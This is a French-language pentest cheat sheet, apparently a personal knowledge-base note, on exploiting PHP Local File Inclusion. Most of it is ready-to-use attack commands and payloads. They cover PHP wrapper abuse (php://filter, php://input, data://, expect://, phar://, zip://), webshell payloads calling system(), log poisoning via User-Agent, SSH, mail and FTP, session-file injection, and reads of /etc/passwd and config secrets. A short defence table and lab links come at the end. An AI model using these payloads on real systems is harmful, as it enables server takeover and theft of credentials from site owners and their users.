

# LFI — Local File Inclusion

> [!info] **En 1 phrase**
> LFI = amener le serveur à **inclure un fichier local** via `include($file)` non validé →
> lecture de sources/secrets, et **RCE** via les **wrappers PHP** (`php://filter`, `php://input`,
> `data://`) ou le **log poisoning**.

---

## Concept



> [!info] **Pourquoi ça marche**
> Un script PHP fait `include($file);` avec `$file = $_GET['page']` **sans validation**.
> L'attaquant contrôle le chemin → il peut inclure n'importe quel fichier lisible du disque.
> Contrairement au [[Path Traversal| Path Traversal]], le fichier inclus est **interprété** → potentiel de RCE.

```php
<?php
$file = $_GET['page'];
include($file);   // vulnérable : LFI
?>
```

> [!warning] **LFI ≠ Path Traversal**
> Le Path Traversal exploite une **lecture** brute. La File Inclusion exécute un **include()** :
> c'est ce qui permet la **RCE** (le fichier inclus est interprété comme du PHP).

---

## Wrappers PHP → RCE

### php://filter — lecture du code source

> Le fichier est **inclus puis exécuté** (le PHP d'un `.php` est interprété). Pour lire la **source**
> d'un fichier PHP sans l'exécuter, on l'encode en **base64** et on décode la sortie.

```url
page=php://filter/convert.base64-encode/resource=config.php
page=php://filter/convert.base64-encode/resource=index.php
page=php://filter/read=convert.base64-encode/resource=/etc/passwd
page=php://filter/read=convert.base64-encode/resource=../../etc/passwd
```

```bash
# Récupérer puis décoder
curl 'http://target/index.php?page=php://filter/convert.base64-encode/resource=config.php'
curl -s 'http://target/index.php?page=php://filter/convert.base64-encode/resource=config.php' | base64 -d
```

> [!warning] `php://filter` retourne du base64**
> Ne pas lire le résultat brut : `curl -s '...' | base64 -d` pour obtenir la source claire.

### Chaînes de filtres php://filter

```url
# Empiler plusieurs filtres (read + write) — utiles pour construire un fichier arbitraire
page=php://filter/read=convert.base64-encode|convert.base64-decode/resource=config.php
page=php://filter/read=convert.iconv.UTF-8.UTF-7|convert.base64-decode/resource=php://temp
```

> [!tip] **PHP filter chains (technique Synacktiv/ambionics)**
> En chaînant `convert.iconv.*` et `convert.base64-decode`, on peut **générer un fichier
> contenant un payload PHP arbitraire** à partir de n'importe quel fichier lisible
> → RCE même sans log poisoning, via `include()` (pas besoin de `allow_url_include`).
> Outil : `php_filter_chain_generator` (synacktiv).

### php://input — body de la requête

> Le corps brut de la requête POST est inclus. **Ne nécessite pas** `allow_url_include`.

```bash
# 1. Envoyer le payload dans le corps
curl -X POST --data '<?php system($_GET["c"]); ?>' \
  'http://target/index.php?page=php://input&c=id'

# ou bien : echo '<?php system($_GET["c"]); ?>' | curl -X POST -d @- '...'
```

### data:// — payload inline

```url
# Base64 (recommandé, évite les soucis d'encoding)
page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTs/Pg==&c=id
#     payload décodé : <?php system($_GET['c']);?>

# Brut (avec encodage URL)
page=data://text/plain,<?php%20system($_GET['c']);?>&c=id
page=data://text/plain,<?php%20echo%20file_get_contents('/etc/passwd');?>
```

```bash
# Générer le payload base64
echo -n '<?php system($_GET["c"]); ?>' | base64
```

> [!warning] `data://` et `php://input` sont des **URL** → ils exigent `allow_url_include = On` dans la plupart des cas. `php://filter` lui fonctionne toujours (fichier local).

### expect:// — exécution directe

> Nécessite l'extension **expect** (rare par défaut).

```url
page=expect://id
page=expect://whoami
page=expect://ls -la /var/www/html
```

### phar:// — deserialization

> Inclut un fichier **dans une archive .phar**. Sert aussi pour la **deserialization** (object injection) : si on peut uploader un `.phar` (souvent accepté en `.jpg`/`.png`), PHP peut déclencher l'exploit à la simple lecture du fichier.

```url
page=phar:///path/to/upload/shell.phar/shell
page=phar://../../uploads/avatar.png/shell
```

### zip:// — inclusion depuis un zip

```url
page=zip:///path/to/upload/archive.zip%23shell.php
page=zip:///var/www/uploads/arch.zip%23shell
```

---

## Log Poisoning → RCE

> Principe : **injecter du PHP dans un fichier journal** via un champ que le serveur journalise
> (User-Agent, username SSH, ...), puis **inclure ce log** par LFI → le PHP est exécuté.

Payload à injecter (adapter les quotes au format du log) :

```bash
<?php system($_GET['c']);?>
<?php echo '<pre>'; system($_GET['c']); echo '</pre>'; ?>
```

### Apache / Nginx access.log

```bash
# 1. Injecter le payload dans le User-Agent (stocké brut dans le log)
curl -A '<?php system($_GET["c"]); ?>' http://target/

# 2. Inclure le log avec LFI
curl 'http://target/index.php?page=/var/log/apache2/access.log&c=id'   # Debian/Ubuntu
curl 'http://target/index.php?page=/var/log/apache/access.log&c=id'    # RedHat/CentOS
curl 'http://target/index.php?page=/var/log/nginx/access.log&c=id'
```

> [!warning] **Dans la ligne de requête, le payload est URL-encodé → PHP ne l'exécute pas.**
> Toujours passer par un **header** (User-Agent, Referer, X-Forwarded-For) pour du PHP brut.

### /var/log/auth.log (SSH) — RedHat : /var/log/secure

```bash
# Le username est journalisé tel quel → injecter via une connexion SSH
ssh '<?php system($_GET["c"]); ?>'@target
# mot de passe : n'importe quoi (échec → ligne dans auth.log)

# Puis LFI sur le log
curl 'http://target/index.php?page=/var/log/auth.log&c=id'
```

### mail.log — injection via mail()

```php
<?php
// Si l'app expose une fonction mail() contrôlable (formulaire de contact...)
mail('victim@example.com', '<?php system($_GET["c"]); ?>', 'corps');
// le sujet/le corps sont journalisés dans /var/log/mail.log
?>
```

```url
page=/var/log/mail.log&c=id
```

### vsftpd.log / proftpd.log — connexion FTP

```bash
# Login FTP avec username = payload PHP
ftp> USER <?php system($_GET['c']);?>
# puis
page=/var/log/vsftpd.log&c=id
```

### /proc/self/environ — variables d'environnement

> `/proc/self/environ` contient les variables d'environnement du **processus courant** (PHP),
> dont `HTTP_USER_AGENT` → on injecte du PHP dans le User-Agent puis on inclut le fichier.

```bash
curl -A '<?php system($_GET["c"]); ?>' http://target/index.php
curl 'http://target/index.php?page=/proc/self/environ&c=id'
```

### /proc/self/fd — descripteurs de fichiers

> Les descripteurs du processus PHP peuvent pointer vers des **fichiers ouverts** (logs inclus).
> On brute-force le numéro de fd. `fd/2` = STDERR (souvent le log d'erreur Apache/PHP).

```url
page=/proc/self/fd/0
page=/proc/self/fd/1
page=/proc/self/fd/2
page=/proc/self/fd/23
# brute-force : fd/0 à fd/100
```

### /proc/self/cmdline — commande du processus

```url
page=/proc/self/cmdline   # arguments du process (paths, config, parfois mots de passe)
page=/proc/version
page=/proc/mounts
```

### Race condition (rotation des logs)

> Quand les logs **tournent** (logrotate), le fichier peut être recréé/vidé entre le moment
> où on injecte et le moment où on inclut. On **brute-force en parallèle** :

```bash
# Terminal 1 : injecter en boucle
while true; do curl -A '<?php system($_GET["c"]); ?>' http://target/index.php; done

# Terminal 2 : inclure le log en boucle
while true; do curl 'http://target/index.php?page=/var/log/apache2/access.log&c=id'; done
```

> [!tip] **Ordre d'essai log poisoning**
> 1. `access.log` (chemin le plus connu) → 2. `/proc/self/environ` (pas de chemin de log à deviner) → 3. `auth.log` (si SSH exposé) → 4. brute `/proc/self/fd/*`.

---

## Fichiers de session → RCE

> PHP stocke les sessions dans des fichiers `sess_<PHPSESSID>`. Si une valeur de session est
> **contrôlée** (username, champ de formulaire, panier...), on y injecte du PHP puis on inclut
> le fichier de session par LFI.

```bash
# 1. Fixer un PHPSESSID connu
curl -c cookies.txt 'http://target/index.php'

# 2. Déposer du PHP dans une variable de session (ex: champ username du login)
curl -b cookies.txt -d 'username=<?php system($_GET["c"]); ?>&password=x' http://target/login.php

# 3. Inclure le fichier de session
curl 'http://target/index.php?page=/var/lib/php/sessions/sess_<PHPSESSID>&c=id'
```

Chemins de sessions selon les distributions :

```url
/var/lib/php/sessions/sess_<ID>      # Debian/Ubuntu
/var/lib/php/sess_<ID>               # Anciennes versions
/var/lib/php5/sessions/sess_<ID>
/tmp/sess_<ID>
/var/lib/php/session/sess_<ID>
```

> [!tip] Récupérer le chemin exact via un `phpinfo()` ou un LFI sur `/etc/php/*/apache2/php.ini`
> (paramètre `session.save_path`).

---

## Outils

| Outil | Usage |
|---|---|
| [Kadimus](https://github.com/P0cL4bs/Kadimus) | check + exploit LFI (archivé) |
| [LFISuite](https://github.com/D35m0nd142/LFISuite) | scanner LFI auto + reverse shell |
| [fimap](https://github.com/kurobeats/fimap) | find/prepare/audit/exploit LFI & RFI |
| [LFImap](https://github.com/hansmach1ne/LFImap) | découverte + exploitation LFI |
| [php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) | RCE via chaînes de filtres |
| [Panoptic](https://github.com/lightos/Panoptic) | extraction de logs & configs via path traversal |

```bash
# ffuf avec wordlist LFI (seclists)
ffuf -u 'http://target/index.php?page=FUZZ' \
  -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fs <taille>
```

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Supprimer les paramètres de fichiers** | Ne jamais exposer `page=`, `file=` depuis l'input ; utiliser des **ID** mappés côté serveur |
| **Allow-list** | N'accepter que des noms de fichiers **connus**, jamais de chemin utilisateur |
| **Canonicalisation** | `realpath()` + vérifier que le résultat **commence par** le dossier autorisé ; rejeter `..` |
| **Désactiver les wrappers** | `allow_url_include = Off` (défaut) ; restreindre via `open_basedir` |
| **Moindre privilège** | L'utilisateur web ne doit **pas** pouvoir lire les logs, `.env`, `config.php` |
| **Surveillance** | Logs des patterns `php://`, `data://`, `../`, `etc/passwd` dans les requêtes |

## Tips & Pièges

> [!tip] **Log poisoning vs php://filter — quel ordre ?**
> 1. `php://filter/convert.base64-encode/resource=config.php` pour **confirmer le wrapper** et lire la source (discret).
> 2. `data://` / `php://input` pour un RCE **sans dépendre des logs**.
> 3. Le **log poisoning** en dernier : il dépend de chemins de logs exacts, de droits de lecture ET du fait que PHP interprète bien le contenu du log.

> [!warning] **Connaître le fichier inclus (chemin exact)**
> `include("pages/".$_GET['page'].".php")` ajoute un **suffixe** : `../../../etc/passwd` échoue. Il faut alors : null byte (PHP < 5.3.4), path truncation, ou wrappers (`php://filter/.../resource=config.php`). Sans connaissance du chemin, **fuzzer** ou lire les erreurs.

> [!tip] **User-Agent : pas d'URL-encoding !**
> Dans la ligne de requête, le payload est URL-encodé par le navigateur/curl → PHP le logue encodé → non exécuté. Les **headers** (User-Agent, X-Forwarded-For, Referer) sont stockés **bruts** dans les logs → payload PHP exécutable.

> [!warning] `data://` et `php://input` exigent `allow_url_include=On`** ; `php://filter` et `expect://` non. Tester chaque wrapper séparément selon la config PHP.

> [!tip] **LFI ≠ RCE nécessairement**
> Lire `config.php`, `.env` ou `wp-config.php` (secrets BDD, clés API, `AWS_SECRET_ACCESS_KEY`) est **déjà critique** même sans exécution.

---

## Labs

- PortSwigger — File inclusion : https://portswigger.net/web-security/all-labs#file-inclusion
- Root-Me — LFI / PHP Filters : https://www.root-me.org/

---

> [!info] **Sources**
> - [PayloadsAllTheThings — File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

**Liens :** [[LFI et RFI| Hub LFI/RFI]] · [[Path Traversal| Path Traversal]] · [[RFI - Remote File Inclusion| RFI]] · [[Injection SQL| SQLi]] · [[SSRF| SSRF]] · [[03 - Exploitation Web| Exploitation Web]] · [[Bibliothèque technique| Index]]
